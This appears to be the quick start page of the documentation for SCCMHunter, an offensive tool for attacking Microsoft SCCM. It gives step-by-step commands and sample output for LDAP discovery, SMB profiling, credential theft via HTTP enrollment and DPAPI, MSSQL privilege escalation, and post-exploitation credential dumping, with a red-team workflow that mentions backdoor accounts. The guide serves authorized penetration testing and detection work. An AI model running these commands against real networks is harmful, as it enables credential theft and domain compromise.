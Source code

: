 ```yaml
---
title: 'Quick Start Guide'
description: 'Step-by-step walkthrough for your first SCCM assessment using SCCMHunter, from discovery to exploitation.'
icon: 'rocket'
sidebarTitle: 'Quick Start'
---
```


This guide walks you through a complete SCCM assessment workflow using SCCMHunter, from initial discovery to exploitation and post-exploitation activities.

<Info>
This quick start assumes you have already completed the [installation process](./installation) and have valid domain credentials.
</Info>

## Assessment Workflow

```mermaid
graph TD
    A[1. LDAP Discovery] --> B[2. SMB Profiling]
    B --> C[3. Target Analysis]
    C --> D{4. Attack Vector Selection}
    D --> E[HTTP Exploitation]
    D --> F[MSSQL Attacks]
    D --> G[DPAPI Extraction]
    E --> H[Post-Exploitation]
    F --> H
    G --> H
```

## Step 1: LDAP Discovery

Start by discovering SCCM infrastructure in the target domain:

<CodeGroup>
```bash Basic Discovery
python3 sccmhunter.py find -d contoso.com -dc-ip 192.168.1.10 -u lowpriv -p password
```

```bash With Kerberos
python3 sccmhunter.py find -d contoso.com -dc-ip 192.168.1.10 -k --no-pass
```

```bash LDAPS with Group Resolution
python3 sccmhunter.py find -d contoso.com -dc-ip 192.168.1.10 -u lowpriv -p password -ldaps -resolve
```
</CodeGroup>

<Accordion title="Expected Discovery Output">
```text
[+] Beginning SCCM Infrastructure Discovery
[+] Checking for Schema Extension Objects
    [+] Found System Management Container
    [+] DACL Analysis Complete - 3 computers with FullControl
[+] Checking for Management Points
    [+] Found Management Point: SCCM01.contoso.com
    [+] Found Management Point: SCCM02.contoso.com
[+] Checking for Distribution Points
    [+] Found PXE-Enabled DP: PXE01.contoso.com
[+] Keyword Search Results
    [+] Found 15 objects containing 'SCCM'
    [+] Found 8 objects containing 'MECM'
```
</Accordion>

## Step 2: SMB Profiling

Profile the discovered targets to understand their roles and attack surface:

<CodeGroup>
```bash Profile All Targets
python3 sccmhunter.py smb -d contoso.com -u lowpriv -p password
```

```bash Profile Specific Targets
python3 sccmhunter.py smb -d contoso.com -u lowpriv -p password -targets "SCCM01.contoso.com,SCCM02.contoso.com"
```

```bash Fast Scan Mode
python3 sccmhunter.py smb -d contoso.com -u lowpriv -p password -threads 20
```
</CodeGroup>

<Accordion title="Expected Profiling Output">
```text
[+] Beginning SMB Profiling
[+] Target: SCCM01.contoso.com
    [+] SMB Signing: Disabled
    [+] SCCM Role: Site Server
    [+] MSSQL Service: Running
    [+] SMS Provider: True
    [+] Default Shares: SMS_DP$, SMS_PKG$
[+] Target: PXE01.contoso.com
    [+] SMB Signing: Enabled
    [+] SCCM Role: Distribution Point
    [+] PXE Variables: Available
    [+] Default Shares: REMINST
```
</Accordion>

## Step 3: Target Analysis

Review the discovery and profiling results to identify attack vectors:

<CodeGroup>
```bash Display Results (JSON)
python3 sccmhunter.py show -j results.json
```

```bash Display Results (Neo4j)
python3 sccmhunter.py show --neo4j -uri bolt://localhost:7687 -username neo4j -password password
```

```bash Export for Manual Analysis
python3 sccmhunter.py show -o targets.csv
```
</CodeGroup>

<Card title="Target Prioritization" icon="crosshairs">
**High Priority Targets:**
- Site Servers with SMB signing disabled
- Management Points with exposed HTTP services
- Distribution Points with PXE variables
- MSSQL instances with site database access

**Attack Vectors to Consider:**
- HTTP client enrollment for credential theft
- MSSQL relay attacks for privilege escalation
- DPAPI extraction from Distribution Points
- SMB relay attacks against unsigned targets
</Card>

## Step 4: Exploitation

### Option A: HTTP Client Enrollment

Target HTTP-based client enrollment for credential extraction:

<CodeGroup>
```bash Basic HTTP Attack
python3 sccmhunter.py http -d contoso.com -u lowpriv -p password -target SCCM01.contoso.com
```

```bash With Custom User-Agent
python3 sccmhunter.py http -d contoso.com -u lowpriv -p password -target SCCM01.contoso.com -agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
```
</CodeGroup>

### Option B: MSSQL Privilege Escalation

Leverage MSSQL access for privilege escalation:

<CodeGroup>
```bash MSSQL Enumeration
python3 sccmhunter.py mssql -d contoso.com -u lowpriv -p password -target SCCM01.contoso.com
```

```bash Query Stacking
python3 sccmhunter.py mssql -d contoso.com -u lowpriv -p password -target SCCM01.contoso.com -stacked
```
</CodeGroup>

### Option C: DPAPI Secret Extraction

Extract Network Access Account credentials:

<CodeGroup>
```bash WMI-Based Extraction
python3 sccmhunter.py dpapi -d contoso.com -u lowpriv -p password -target PXE01.contoso.com
```

```bash Disk-Based Extraction
python3 sccmhunter.py dpapi -d contoso.com -u lowpriv -p password -target PXE01.contoso.com -method disk
```
</CodeGroup>

## Step 5: Post-Exploitation

If you've successfully gained administrative access, use the admin module:

<CodeGroup>
```bash Interactive Shell
python3 sccmhunter.py admin -u administrator -p newpassword -ip SCCM01.contoso.com
```

```bash Credential Extraction
SCCMHunter> get_creds
```

```bash Situational Awareness
SCCMHunter> administrators
SCCMHunter> console_users
SCCMHunter> ps
```
</CodeGroup>

## Common Workflows

<Accordion title="Red Team Engagement">
**Objective**: Gain domain admin through SCCM compromise

1. **Discovery**: `find` module to map SCCM infrastructure
2. **Profiling**: `smb` module to identify attack surface
3. **Exploitation**: `http` or `mssql` modules for initial access
4. **Escalation**: `admin` module for privilege escalation
5. **Persistence**: Create backdoor accounts and maintain access
</Accordion>

<Accordion title="Penetration Test">
**Objective**: Assess SCCM security posture

1. **Enumeration**: Comprehensive discovery with all modules
2. **Vulnerability Assessment**: Identify misconfigurations and weaknesses
3. **Proof of Concept**: Demonstrate exploitability without damage
4. **Documentation**: Export results for detailed reporting
5. **Remediation**: Provide specific hardening recommendations
</Accordion>

<Accordion title="Purple Team Exercise">
**Objective**: Test detection capabilities

1. **Baseline**: Establish normal SCCM activity patterns
2. **Attack Simulation**: Execute controlled attack scenarios
3. **Detection Analysis**: Verify security monitoring effectiveness
4. **Tuning**: Adjust detection rules and monitoring systems
5. **Validation**: Re-test to confirm improved detection
</Accordion>

## Troubleshooting Common Issues

<Accordion title="Authentication Failures">
**Symptoms**: "Authentication failed" or "Access denied" errors

**Solutions**:
- Verify credentials are correct and account is not locked
- Check domain name format (use FQDN)
- Try different authentication methods (-k for Kerberos)
- Ensure network connectivity to domain controller
</Accordion>

<Accordion title="No SCCM Infrastructure Found">
**Symptoms**: Empty results from find module

**Solutions**:
- Verify you're targeting the correct domain
- Check if SCCM is actually deployed in the environment
- Try the `-resolve` flag for nested group enumeration
- Confirm you have appropriate LDAP read permissions
</Accordion>

<Accordion title="SMB Connection Issues">
**Symptoms**: SMB profiling fails or times out

**Solutions**:
- Check SMB signing requirements and compatibility
- Verify network connectivity and firewall rules
- Try reducing thread count with `-threads` parameter
- Use specific target lists instead of broad scanning
</Accordion>

## Next Steps

<CardGroup cols={2}>
  <Card title="LDAP Enumeration" icon="magnifying-glass" href="../enumeration/find">
    Deep dive into LDAP discovery techniques and advanced options
  </Card>

  <Card title="HTTP Exploitation" icon="globe" href="../exploitation/http">
    Learn advanced HTTP client enrollment attack techniques
  </Card>

  <Card title="MSSQL Attacks" icon="database" href="../exploitation/mssql">
    Master MSSQL-based privilege escalation methods
  </Card>

  <Card title="Post-Exploitation" icon="crown" href="../post-exploitation/admin-overview">
    Explore administrative access and lateral movement capabilities
  </Card>
</CardGroup>

## Best Practices

<Card title="Operational Security" icon="shield">
- **Test in Labs First**: Always validate techniques in controlled environments
- **Minimize Impact**: Use read-only operations when possible during assessments
- **Document Everything**: Maintain detailed logs of activities and findings
- **Coordinate with Teams**: Communicate with IT and security teams during authorized testing
- **Clean Up**: Remove any temporary artifacts created during testing
</Card>